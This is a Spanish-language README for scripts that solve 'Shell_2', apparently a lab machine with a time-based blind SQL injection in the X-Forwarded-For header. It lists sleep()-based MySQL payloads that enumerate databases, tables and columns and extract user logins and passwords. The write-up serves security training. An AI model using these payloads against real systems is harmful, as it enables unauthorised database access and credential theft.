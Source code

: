 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

Algunas consideraciones
> El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
> 
> Uso de encabezado `X-Forwarded-For`
> 
> Cada script tiene una descripción de procedimiento
> 
## Impacto vulnerabilidad SQLi

### Procedimiento:
Partiendo de la base en la que podemos validar una inyección exitosa en la cabecera `X-Forwarded-For` con `hack' or sleep(2) #`, además de que podemos consultar la versión de la base de datos con `test' or if(substring(@@version,1,1)='5',sleep(1),0) #`, buscamos con script1.sh hacer que el servidor SQL duerma 1 seg. que en el caso de la inyección, equivale a sleep(0.043), sólo si el número total de bases de datos es igual a un número que estamos probando. Encontramos que el número de bases de datos son 2 y la sentencia del script fué:
```mysql
1' or if((SELECT COUNT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA) = 'num', sleep(0.043), 0) #
```
Sabiendo el número de bases de datos, nos enfocamos a descubrir sus nombres con script2.sh con un script que hace que el servidor SQL duerma 1 seg. que en el caso de la inyección, equivale a sleep(0.043), sólo si el nombre de la base de datos contiene la letra en la posición indicada. Nuestro payload que nos hizo verificar la existencia de `information_schema` y de `photoblog` fué basado en la siguiente sentencia:
```mysql
1' or if((SELECT SUBSTRING(SCHEMA_NAME,'posición',1) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT $((db_index-1)),1) = 'letra', sleep(0.043), 0) #
```
Continuar con el reconocimiento imperó saber el número de tablas en este caso de `photoblog`, creamos un script que nos dió un resultado de 4 tablas con un payload como el siguiente:
```mysql
1' OR IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='photoblog' AND table_name IS NOT NULL) > 'numero de tabla', SLEEP(0.043), 0) #
```
Descubrir el nobre de las tablas fué muy parecido a los trabajos anteriores, dentro de las 4 tablas encontramos `users` con un pauload como este:
```mysql
1' OR IF((SELECT SUBSTRING(table_name,'posición',1) FROM information_schema.tables WHERE table_schema='users' LIMIT 'numero de tabla users',1)='letra', SLEEP(0.043), 0) #
```
El siguiente script es usado para enumerar las tablas, sabiendo ya que son 4 y que el nombre es users:
```mysql
1' OR IF((SELECT SUBSTRING(column_name,'posición',1) FROM information_schema.columns WHERE table_name='users' AND table_schema='photoblog' LIMIT 'num_col',1)='letra', SLEEP(0.043), 0) #
```
Por último extraímos los valores de las columnas id, login y password en la tabla users de la base de datos photoblog.
```mysql
1' OR IF((SELECT SUBSTRING('columna','posición',1) FROM photoblog.users LIMIT 'num_fila',1)='letra', SLEEP(0.043), 0) #
```
    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado del repositorio que pueda causar impactos negativos. El propósito es y sólo es, con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.

